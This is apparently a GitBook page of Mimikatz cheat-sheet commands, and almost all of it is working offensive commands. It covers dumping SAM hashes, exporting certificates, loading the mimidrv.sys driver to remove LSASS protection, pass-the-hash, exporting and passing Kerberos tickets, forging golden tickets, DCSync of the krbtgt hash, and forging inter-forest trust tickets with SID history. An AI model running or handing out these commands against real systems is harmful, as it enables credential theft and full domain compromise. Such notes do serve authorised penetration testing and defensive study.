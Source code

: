 # Mimikatz

## SAM File - Local accounts

```csharp
mimikatz # privilege::debug Privilege
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM
```

```csharp
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```text
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

{% hint style="info" %}
Replace /user:Domain\krbtgt by any username to get a specific hash
{% endhint %}

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```

## Trust Key between Forest and Child

### Get the trusted key

```csharp
 Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.lab.test.local
```

### Get a ticket

```csharp
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:childomain.com /sid:<childomain.com SID> /sids:<main domain SID-519> /rc4:ea9815a
<trusted key hash> /service:krbtgt /target:maindomain.com /ticket:C:\temp\trust_tkt.kirbi"'
```

### Pass the ticket - SID history

```csharp
 Invoke-Mimikatz -Command '"kerberos::ptt krbtgt_tkt.kirbi"'
```

